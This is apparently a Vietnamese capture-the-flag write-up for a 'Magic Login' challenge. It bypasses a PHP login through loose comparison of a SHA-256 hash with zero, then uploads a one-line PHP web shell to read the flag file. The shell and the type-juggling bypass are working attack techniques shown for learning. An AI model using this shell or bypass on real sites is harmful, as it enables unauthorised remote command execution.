


# Magic Login

Khi chúng ta truy cập vào chall  ta thấy được 1 một form đăng nhập
Chech thử source code ta thấy được code cho phần đăng nhập



Khi chúng ta đăng nhập được chúng ta sẽ được chuyển đến một trang download
Chúng ta thấy được rằng password được encode sha256 và check điều kiên $pas == 0

Sau một hồi tìm kiếm mình tìm được một số đoạn cipher có thể mã hóa sha256 cho ra giá trị 0



Sau khi đặp nhập vào ta thấy một form up load file
Ta thử up load một file đơn giản
```
<?php
system($_GET['cmd']);
?>
```
Sau khi upload file lên ta chạy thử một command là ```?cmd=cat /flag.txt``` và láy được flag

*Flag: CHH{PHP_m4g1c_tr1ck_0lD_but_g0lD_d59e4abafcf09eeadffe5cad002a1126}*